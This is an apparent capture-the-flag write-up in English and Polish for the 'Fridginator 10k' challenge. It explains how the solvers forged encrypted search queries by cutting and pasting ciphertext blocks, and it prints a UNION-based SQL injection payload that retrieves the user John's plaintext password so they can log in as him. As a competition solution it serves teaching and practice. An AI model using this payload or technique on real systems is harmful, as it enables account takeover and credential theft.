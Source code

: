 # Writeup for fridginator

> Solves: 52
> 
> Fridginator 10k - Web/Crypto - 200 pts - realized by clZ
  My brother John just bought this high-tech fridge which is all flashy and stuff, but has also added some kind of security mechanism which means I can't steal his food anymore... I'm not sure I can survive much longer without his amazing yoghurts. Can you find a way to steal them for me?
  [The fridge is here](http://fridge.insomnihack.ch/)

### ENG

Site at the begining had register and login forms.

After creating an account, and log in, showed that view:

![Screenshot_3.png](Screenshot_3.png)

When we try to search Johns Yoghurt and take it from the fridge, we got that info, that we are not allowed to do that.

![Screenshot_4.png](Screenshot_4.png)
![Screenshot_5.png](Screenshot_5.png)

Any attempt to search, takes us on a URL, for example, like this:
`http://fridge.insomnihack.ch/search/67d4b8f78c33d07cbdc7293b9cd93b8f37231e5001982893f5c3a6494d14bbba/`

We figured out that, our query must be coded, next we are moved to the next page with generated and coded query in url. 

After several attempts to send queries, we agreed that, one 32 lenght hash block consists of a maximum 16 chars. Coding looks as follows: [prefix][our query][suffix]. [prefix] has 7 chars. [suffix] depending on whether we search users or products, has 11 or 13 chars. [prefix] 7 chars, seems like `search=` at first sight, so we checked it, and confirmed, that was prefix. [suffix] must have information in which table we search. We wrote a small semi-auto python script [brute.py](brute.py), which helped us to know suffix letter by letter, for products suffix looked as `|type=object%01` (%01 hex ascii is real 1 char, representing Start of Heading).

Next, we fill the 1. block to 16 chars, remembering that `search=` consume 7 chars, we must add 9 random chars. After that we must send our query, which must have increments of 16 chars, so as not to mix with suffix block. Generated hash has first and last block, which us completely not interested. We need copy middle blocks, and paste them in url `http://fridge.insomnihack.ch/search/...`

Trying to various queries, we agreed that the finally query looks as: `SELECT * FROM objsearch_X WHERE description LIKE ?` X was a value from `type=`, which has not been filtered and could have injected our prepared query.

We created a query, which returns password of John, thanks to the fact that query have sql injection vulnerability. `aaaaaaaaasearch=%%%%%%%%%%%%%%|type=object union select '5' as description, '1', (SELECT password FROM objsearch_user WHERE username ="John"), '3', '4' %01`

Returned hash looked like:
`5616962f8384b4f8850d8cd1c0adce98428072146d4f6e8cab3f5da04aecd14f4cd1be3e4e45844001c98397c8907136d85f1f4a5b5cf842c6a77e3eb42ad1b1d213bf36bb7a28f0a4162cdbbaf2384c58ffeeeefa2f0d7a37dea5ddbc39f008028cb773e1d9f162d3ab47c414cf441834ee8034b0799f5513e4bcaa777c29bbde35ba503c28f25be7860e4e6478924c8749a3e9bbbdd48c39aa45a0cd6c90a1d9cc5ea47c14d6fb630320a5dfa0bbca`

We removed first and last block (32 chars per block, remember), which contain unnecessary prefix and suffix, and finally we have hash like that:

`428072146d4f6e8cab3f5da04aecd14f4cd1be3e4e45844001c98397c8907136d85f1f4a5b5cf842c6a77e3eb42ad1b1d213bf36bb7a28f0a4162cdbbaf2384c58ffeeeefa2f0d7a37dea5ddbc39f008028cb773e1d9f162d3ab47c414cf441834ee8034b0799f5513e4bcaa777c29bbde35ba503c28f25be7860e4e6478924c8749a3e9bbbdd48c39aa45a0cd6c90a1`

And real sql query looked like:

`SELECT * FROM objsearch_object UNION SELECT '1' AS description, '2', (SELECT password FROM objsearch_user WHERE username ="John"), '4', '5' WHERE description LIKE %%%%%%%%%%%%%%`

We got a search result, which contain all products (`SELECT * FROM objsearch_object`), and one extra entry contained the password of John in plaintext (`SELECT '1' AS description, '2', (SELECT password FROM objsearch_user WHERE username ="John"), '4', '5' WHERE description LIKE %%%%%%%%%%%%%%`).

Finally next, we logon to the account of John, took yoghurt from the fridge, and got the flag.


### PL
Strona przy powitaniu zawierała dwa formularze, jeden do rejestracji, drugi do logowania.

Po utworzeniu konta i zalogowaniu, pokazywał się następujący widok:

![Screenshot_3.png](Screenshot_3.png)

Przy próbie wyszukania jogurtu Johna i wzięcia go z lodówki, niestety dostawaliśmy informację, że nie jesteśmy uprawnieni do zabrania jego rzeczy.

![Screenshot_4.png](Screenshot_4.png)
![Screenshot_5.png](Screenshot_5.png)

Każda próba wyszukiwania przenosiła nas na url, przykładowo taki:
`http://fridge.insomnihack.ch/search/67d4b8f78c33d07cbdc7293b9cd93b8f37231e5001982893f5c3a6494d14bbba/`

Stwierdziliśmy, że to czego wyszukujemy jest kodowane, następnie przeniesieni zostajemy na podstronę z wygenerowanym i zakodowanym w url zapytaniem. Musi tam więc nastąpić dekodowanie hasha z url, a następnie wyszukiwanie na podstawie zdekodowanych wartości.

Po kilku próbach wysyłania zapytań, ustaliliśmy, że na jeden 32 znakowy blok hasha, składa się maksymalnie 16 znaków. A także, że kodowanie wygląda następująco.
[przedrostek][nasze zapytanie][przyrostek]. Ustaliliśmy również, że [przedrostek] składa się z 7 znaków. A [przyrostek], zależnie od tego czy wyszukujemy użytkowników, czy produktów, z 11 lub 13 znaków. [przedrostek] wyglądał nam od razu na wartość `search=` sprawdziliśmy i zgadzało się. [przyrostek] musiał posiadać informację w jakiej tabeli następuje wyszukiwanie. Napisalismy mały półautomatyczny skrypt [brute.py](brute.py), który pomógł nam litera po literze poznać wartość przyrostka, dla produktów wyglądał następująco `|type=object%01` (%01 to oczywiście 1 znak Start of Heading po zdekodowaniu).

Pozostało nam więc zapełnić 1. blok znaków do 16 liter, czyli pamiętając, że 7 znaków pochłonie `search=` przesłać 9 dowolnych znaków. Następnie przesłać nasz kod, który chcemy wykonać, który musiał mieć długość równą wielokrotności liczby 16, aby nie pomieszać się z blokiem przyrostka. Wygenerowany hash miał więc pierwszy blok który nas kompletnie nie interesował i ostatni blok, który również nas nie interesował. Skopiować należało hashe ze środkowych bloków i podstawić pod url `http://fridge.insomnihack.ch/search/...`

Próbując różnych zapytań ustaliliśmy, że zapytanie do bazy wygląda następująco: `SELECT * FROM objsearch_X WHERE description LIKE ?` X było wartością z `type=`, która nie była filtrowana i mogliśmy tam wstrzyknąć nasze spreparowane zapytanie.

Stworzyliśmy więc zapytanie, które dzięki podatności na sqlinjection zwracało nam hasło Johna: `aaaaaaaaasearch=%%%%%%%%%%%%%%|type=object union select '5' as description, '1', (SELECT password FROM objsearch_user WHERE username ="John"), '3', '4' %01`

zwrócony hash wyglądał następująco: 

`5616962f8384b4f8850d8cd1c0adce98428072146d4f6e8cab3f5da04aecd14f4cd1be3e4e45844001c98397c8907136d85f1f4a5b5cf842c6a77e3eb42ad1b1d213bf36bb7a28f0a4162cdbbaf2384c58ffeeeefa2f0d7a37dea5ddbc39f008028cb773e1d9f162d3ab47c414cf441834ee8034b0799f5513e4bcaa777c29bbde35ba503c28f25be7860e4e6478924c8749a3e9bbbdd48c39aa45a0cd6c90a1d9cc5ea47c14d6fb630320a5dfa0bbca`

wycięliśmy pierwszy i ostatni blok, które wszystko psują swoim przed i przyrostkami, więc wynikowo hash wyglądał tak:

`428072146d4f6e8cab3f5da04aecd14f4cd1be3e4e45844001c98397c8907136d85f1f4a5b5cf842c6a77e3eb42ad1b1d213bf36bb7a28f0a4162cdbbaf2384c58ffeeeefa2f0d7a37dea5ddbc39f008028cb773e1d9f162d3ab47c414cf441834ee8034b0799f5513e4bcaa777c29bbde35ba503c28f25be7860e4e6478924c8749a3e9bbbdd48c39aa45a0cd6c90a1`

A zapytanie do bazy wyglądało rzeczywiście tak:

`SELECT * FROM objsearch_object UNION SELECT '1' AS description, '2', (SELECT password FROM objsearch_user WHERE username ="John"), '4', '5' WHERE description LIKE %%%%%%%%%%%%%%`

Dostaliśmy dzięki temu wynik zawierający wszystkie produkty (`SELECT * FROM objsearch_object`), a także jeden dodatkowy wpis zawierający hasło Johna w plaintext (`SELECT '1' AS description, '2', (SELECT password FROM objsearch_user WHERE username ="John"), '4', '5' WHERE description LIKE %%%%%%%%%%%%%%`).

Następnie zalogowaliśmy się na konto Johna, wzięliśmy z lodówki jogurt i dostaliśmy flagę.